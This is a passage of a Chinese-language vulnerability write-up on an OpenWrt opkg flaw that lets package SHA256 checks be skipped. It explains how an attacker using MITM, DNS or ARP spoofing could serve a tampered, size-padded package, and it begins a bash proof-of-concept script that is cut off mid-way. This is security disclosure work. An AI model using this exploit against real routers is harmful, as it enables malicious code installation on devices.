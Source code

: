 但是因为`checksum_hex2bin`没有办法对`SHA256sum`字段进行解码，所以1418行之后的代码被直接跳过。

这个漏洞很像三年前，在2017年2月发现的一个漏洞：[https://git.openwrt.org/?p=project/opkg-lede.git;a=blobdiff;f=libopkg/file_util.c;h=155d73b52be1ac81d88ebfd851c50c98ede6f012;hp=912b147ad306766f6275e93a3b9860de81b29242;hb=54cc7e3bd1f79569022aa9fc3d0e748c81e3bcd8;hpb=9396bd4a4c84bde6b55ac3c47c90b4804e51adaf](https://git.openwrt.org/?p=project/opkg-lede.git;a=blobdiff;f=libopkg/file_util.c;h=155d73b52be1ac81d88ebfd851c50c98ede6f012;hp=912b147ad306766f6275e93a3b9860de81b29242;hb=54cc7e3bd1f79569022aa9fc3d0e748c81e3bcd8;hpb=9396bd4a4c84bde6b55ac3c47c90b4804e51adaf)



## 漏洞的利用

为了利用这个漏洞，攻击者需要在一个Web服务器上提供（受损的）软件包。

为此，攻击者必须能够拦截并替换设备与`downloads.openwrt.org`之间的通信，或者控制设备使用的DNS服务器，让`downloads.openwrt.org`指向攻击者控制的web服务器。

如果攻击者与设备处在同一网络中，攻击者可以使用数据包欺骗或者ARP缓存感染的方式进行攻击，但是我还没测试过这种情况。

唯一的限制条件就是，受损软件包大小要和软件包列表中的`Size`字段相匹配。

要实现这点很简单：

1、创建一个小于原始包的受损软件包；<br>
2、计算原始包与受损软件包之间的大小差异；<br>
3、在受损软件包后添加相同数量的0字节；

下面的PoC说明了如何实现漏洞利用：

```
#!/bin/bash

# 从镜像下载软件包列表
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/base/Packages.gz
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/base/Packages.sig
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/luci/Packages.gz
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/luci/Packages.sig
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/packages/Packages.gz
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/packages/Packages.sig
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/routing/Packages.gz
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/routing/Packages.sig
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/telephony/Packages.gz
wget -x http://downloads.openwrt.org/snapshots/packages/x86_64/telephony/Packages.sig
wget -x http://downloads.openwrt.org/snapshots/targets/x86/64/packages/Packages.gz
wget -x http://downloads.openwrt.org/snapshots/targets/x86/64/packages/Packages.sig

mv downloads.openwrt.org/snapshots .
rm -rf downloads.openwrt.org/

# 获得原始软件包
wget http://downloads.openwrt.org/snapshots/packages/x86_64/packages/attr_2.4.48-2_x86_64.ipk
ORIGINAL_FILESIZE=$(stat -c%s "attr_2.4.48-2_x86_64.ipk")
tar zxf attr_2.4.48-2_x86_64.ipk
rm attr_2.4.48-2_x86_64.ipk

# 提取二进制文件
mkdir data/
cd data/
tar zxvf ../data.tar.gz
rm ../data.tar.gz

# 创建用于替换的二进制文件，这是一个很小的程序，只打印一个字符串。
rm -f /tmp/pwned.asm /tmp/pwned.o
echo "section  .text" &gt;&gt;/tmp/pwned.asm
echo "global   _start" &gt;&gt;/tmp/pwned.asm
echo "_start:" &gt;&gt;/tmp/pwned.asm
echo " mov  edx,len" &gt;&gt;/tmp/pwned.asm
```